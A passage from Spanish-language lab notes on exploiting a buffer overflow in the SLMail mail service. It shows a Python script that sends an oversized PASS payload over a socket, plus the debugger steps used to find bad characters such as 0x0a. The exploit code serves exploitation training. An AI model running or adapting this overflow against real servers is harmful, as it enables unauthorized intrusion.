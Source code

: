 ```python
b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

payload=before_eip+eip+after_eip

def exploit():

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect((ip, port))

    banner = s.recv(1024)

    s.send(b"USER tumbaburras" + b'\r\n')
    response = s.recv(1024)

    s.send(b"PASS" + payload + b'\r\n')


    s.close

if __name__ == '__main__':

    exploit()



```


Antes de ejecutarlo reinicamos el immunity debugger y el servicio de slmail ya que este ya estaba crasheado anteriormente y ahora si lo ejecutamos 


![[Pasted image 20240308205920.png]]


Al ejecutarlo podemos ver en el ESP que al llegar al 09 salta al 29

![[Pasted image 20240308224358.png]]


Por lo que verificando el bytearray podemos ver que lo que sigue del 09 el es el 0a por lo que este parece ser un badchar y hay que eliminarlo 
